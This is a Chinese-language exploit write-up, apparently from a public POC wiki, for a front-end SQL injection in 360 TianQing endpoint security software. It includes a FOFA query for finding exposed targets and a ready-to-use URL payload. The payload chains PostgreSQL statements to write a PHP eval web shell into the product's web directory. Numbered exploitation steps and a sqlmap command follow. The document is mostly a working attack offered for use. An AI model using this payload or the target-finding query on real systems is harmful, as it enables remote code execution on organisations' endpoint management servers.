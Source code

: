 # 天擎 前台SQL注入

## 漏洞描述

天擎 存在SQL注入,攻击者可以通过漏洞上传木马

## 漏洞影响

> [!NOTE]
>
> 天擎

## FOFA

> [!NOTE]
> title="360新天擎"

## 漏洞复现

```
注入写shell:
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--  


利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为 表O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
```

使用命令

```
sqlmap -u https://xxx.xxx.xxx.xxx:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
```

![](image/tq-1.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360 TianQing ccid SQL injectable

![](image/tq-4.png)
